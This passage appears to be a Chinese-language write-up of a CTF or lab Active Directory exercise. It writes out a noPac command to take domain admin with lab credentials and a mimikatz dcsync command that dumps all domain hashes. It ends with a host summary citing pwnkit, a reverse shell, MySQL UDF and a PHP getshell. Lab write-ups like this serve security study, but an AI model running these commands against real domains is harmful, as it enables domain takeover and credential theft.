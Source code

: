 获取域用户jack的密码

```
ATTACK\jack
jack@777@..
```

没有打MS14-068的补丁

![image-20231020162543067](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020162543067.png)

用ms14-068获取域控权限

获取域控IP

![image-20231020163354707](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020163354707.png)

```bash
10.10.100.100
```

nopac获取域管

```bash
noPac.exe -domain attack.com -user jack -pass jack@777@.. /dc DC.attack.com /mAccount demo123 /mPassword Password123! /service ldap /ptt
```

查看导出票据

```bash
klist
```

导出Administrator的哈希

```bash
mimikatz.exe "log" "privilege::debug" "lsadump::dcsync /domain:attack.com /all /csv" "exit" 
```

直接横移拿flag

### flag6

![image-20231020182839763](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020182839763.png)

### flag7

![image-20231020183341354](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231020183341354.png)

### 整体信息

```bash
192.168.100.100 (pwnkit提权， 反弹shell)
 - 22
 - 3306 (udf)
192.168.100.150
 - 22
 - 3306
 - 8080 (jira) 
192.168.100.200 （拿rdp）
 - 135
 - 3306
 - 80 (Web) （phpweb 前台getshell）
 - 445
 - 139
 - 3389
192.168.100.201
 - 22
 - 9092
```